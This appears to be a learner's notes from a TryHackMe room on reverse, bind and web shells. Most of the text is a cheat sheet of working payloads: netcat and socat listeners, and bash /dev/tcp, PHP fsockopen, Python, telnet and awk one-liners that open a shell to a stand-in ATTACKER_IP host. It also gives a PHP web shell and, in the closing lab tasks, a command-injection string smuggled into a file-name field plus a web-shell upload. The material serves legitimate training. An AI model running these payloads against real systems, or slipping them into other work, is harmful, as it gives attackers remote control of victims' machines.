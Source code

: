 # Reverse Shell

A reverse shell (or "connect back shell") is a common method for cyberattackers to access a system. It establishes a connection from the target system to the attacker's machine, helping to evade detection by firewalls.
How Reverse Shells Work
Setting Up a Netcat Listener

To demonstrate a reverse shell, we use Netcat. The attacker sets up a listener with the command:

nc -lvnp 443

**-l** Listen for connections.
**-v** Verbose mode.
**-n** No DNS resolution.
**-p** Port number (e.g., 443).

Attackers often use common ports (53, 80, 8080, 443, 139, 445) to blend in with legitimate traffic.

Gaining Reverse Shell Access

After setting the listener, the attacker executes a reverse shell payload to exploit vulnerabilities. An example payload is:

rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc ATTACKER_IP ATTACKER_PORT >/tmp/f

**rm -f /tmp/f** Removes any existing named pipe.
**mkfifo /tmp/f** Creates a named pipe for communication.
**cat /tmp/f** Reads input from the pipe.
**| sh -i 2>&1** Executes commands interactively, redirecting errors.
**| nc ATTACKER_IP ATTACKER_PORT >/tmp/f** Sends output to the attacker's machine.

This payload allows bi-directional communication, exposing the shell to the attacker.

Once the payload runs, the attacker gains a reverse shell, enabling command execution as if logged into the system.

## Blind Shell

A bind shell binds a port on a compromised system to listen for connections, allowing an attacker to execute commands remotely. It's useful when outgoing connections are blocked but is less popular due to detection risks.

To create a bind shell, use the following command on the target machine:

rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f

**rm -f /tmp/f** Removes any existing named pipe.
**mkfifo /tmp/f** Creates a named pipe for communication.
**cat /tmp/f** Reads input from the pipe.
**| bash -i 2>&1** Executes commands interactively, redirecting errors.
**| nc -l 0.0.0.0 8080** Listens on all interfaces at port 8080, exposing the shell.

Using port 8080 avoids the need for elevated privileges.

The attacker connects using:

nc -nv TARGET_IP 8080

**nc** Invokes Netcat to connect.
**-n** Disables DNS resolution.
**-v** Verbose mode for detailed output.
**TARGET_IP** The target machine's IP address.
**8080** The listening port.

After connecting, the attacker gains shell access to execute commands.

## Rlwrap

Rlwrap is a utility that enhances command-line applications with GNU readline features like keyboard editing and command history.

attacker@kali:~$ rlwrap nc -lvnp 443

This command wraps Netcat with rlwrap, enabling arrow key navigation and command history.

## Ncat

Ncat is an enhanced version of Netcat from the NMAP project, offering features like SSL encryption.

### Usage Example (Listening for Reverse Shells)
attacker@kali:~$ ncat -lvnp 4444

### Usage Example (Listening with SSL)
attacker@kali:~$ ncat --ssl -lvnp 4444
The --ssl option enables SSL encryption for secure connections.

## Socat

Socat creates socket connections between two data sources, such as different hosts.

attacker@kali:~$ socat -d -d TCP-LISTEN:443 STDOUT

This command listens on port 443, directing incoming data to the terminal. The -d option enables verbose output.

## Shell Payloads

A shell payload is a command or script that exposes a shell for incoming connections (bind shell) or sends a connection (reverse shell). Here are popular payloads for Linux:
Bash

Normal Bash Reverse Shell
bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1
Initiates an interactive bash shell over TCP.

Bash Read Line Reverse Shell
exec 5<>/dev/tcp/ATTACKER_IP/443; cat <&5 | while read line; do $line 2>&5 >&5; done
Reads and executes commands from a TCP socket.

Bash with File Descriptor 196
0<&196;exec 196<>/dev/tcp/ATTACKER_IP/443; sh <&196 >&196 2>&196
Uses file descriptor 196 for TCP connection.

Bash with File Descriptor 5
bash -i 5<> /dev/tcp/ATTACKER_IP/443 0<&5 1>&5 2>&5
Opens an interactive shell using file descriptor 5.

## PHP

PHP Reverse Shell (exec)
php -r '$sock=fsockopen("ATTACKER_IP",443);exec("sh <&3 >&3 2>&3");'
Creates a socket and executes a shell.

PHP Reverse Shell (shell_exec)
php -r '$sock=fsockopen("ATTACKER_IP",443);shell_exec("sh <&3 >&3 2>&3");'
Similar to exec, but uses shell_exec.

PHP Reverse Shell (system)
php -r '$sock=fsockopen("ATTACKER_IP",443);system("sh <&3 >&3 2>&3");'
Executes a command and outputs to the browser.

PHP Reverse Shell (passthru)
php -r '$sock=fsockopen("ATTACKER_IP",443);passthru("sh <&3 >&3 2>&3");'
Sends raw output back to the browser.

PHP Reverse Shell (popen)
php -r '$sock=fsockopen("ATTACKER_IP",443);popen("sh <&3 >&3 2>&3", "r");'
Opens a process file pointer for the shell.

## Python

Python Reverse Shell (Environment Variables)
export RHOST="ATTACKER_IP"; export RPORT=443; PY-C 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
Sets remote host/port, creates a socket, and spawns a shell.

Python Reverse Shell (subprocess)
PY-C 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
Similar to the previous command using subprocess.

Short Python Reverse Shell
PY-C 'import os,pty,socket;s=socket.socket();s.connect(("ATTACKER_IP",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'
Connects to the attacker and redirects input/output.

## Others

Telnet Reverse Shell
TF=$(mktemp -u); mkfifo $TF && telnet ATTACKER_IP 443 0<$TF | sh 1>$TF
Uses a named pipe and connects via Telnet.

AWK Reverse Shell
awk 'BEGIN {s = "/inet/tcp/0/ATTACKER_IP/443"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
Connects using AWK’s TCP capabilities.

## Web Shell

A web shell is a script on a compromised web server that executes commands via the server. It can be hidden in web applications, making it hard to detect and popular among attackers. Web shells can be written in languages like PHP, ASP, JSP, and CGI scripts.
Example PHP Web Shell

<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>

This PHP shell can be saved as shell.php and uploaded to the server through vulnerabilities like Unrestricted File Upload or Command Injection. Accessing it via a URL, e.g., http://victim.com/uploads/shell.php?cmd=whoami, executes the command and displays the result in the browser.
Popular Web Shells

- p0wny-shell: Minimalistic PHP web shell for remote command execution.
- b374k shell: Feature-rich PHP web shell with file management and command execution.
- c99 shell: Well-known PHP web shell with extensive functionality.

## THM Tasks


**rlwrap nc -lvnp 1443** on my machine cmd
**http://MACHINE_IP:8081** in browser to enter site
**hello.txt ; php -r '$sock=fsockopen("ATTACKBOX_IP",1443);exec("sh <&3 >&3 2>&3");'** in site text box
**cat /flag.txt** on cmd, will say connection received since last command

create shell.php in text editor, save to desktop
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
Go to http://MACHINE_IP:8082/
upload shell.php to site
http://MACHINE_IP:8082/uploads/shell.php
Execute cat /flag.txt
